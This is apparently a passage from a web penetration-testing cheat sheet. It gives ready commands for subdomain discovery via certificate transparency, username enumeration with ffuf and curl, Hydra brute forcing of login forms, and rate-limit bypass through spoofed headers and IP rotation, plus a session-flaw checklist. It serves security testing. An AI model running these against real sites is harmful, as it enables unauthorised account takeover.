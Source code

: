 ```bash
# Certificate transparency
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sort -u
```

---

## 2. Authentication & Session Management {#authentication}

### Username Enumeration

```bash
# Timing-based enumeration
ffuf -w usernames.txt -u https://target.com/login -X POST -d "username=FUZZ&password=invalid" -mr "Invalid password" -mc all

# Response difference enumeration
# Valid: "Invalid password"
# Invalid: "Invalid username"

# Registration-based enumeration
curl -X POST https://target.com/register -d "username=admin&email=test@test.com" 
# Response: "Username already exists"

# Password reset enumeration
curl -X POST https://target.com/reset -d "email=admin@target.com"
# Check response time/message differences
```

### Brute Force Attacks

```bash
# Hydra for login forms
hydra -L usernames.txt -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials" -t 10

# Burp Intruder with IP rotation
# Use Burp extension: IP Rotate
# Configure AWS API Gateway for IP rotation

# Rate limit bypass techniques
# - Add headers: X-Forwarded-For, X-Originating-IP, X-Remote-IP, X-Client-IP
# - Change user agent per request
# - Use multiple sessions
# - Try null byte (%00) in username
```

### Session Management Flaws

```bash
# Cookie analysis
# Check for:
# - httpOnly flag missing
# - Secure flag missing
# - SameSite attribute missing
# - Predictable session IDs
# - Session fixation

# Session fixation test
1. Get session ID: SESS=abc123
2. Login with victim credentials
3. Check if SESS=abc123 is still valid

# Session puzzling
# Use same session for multiple roles/contexts
```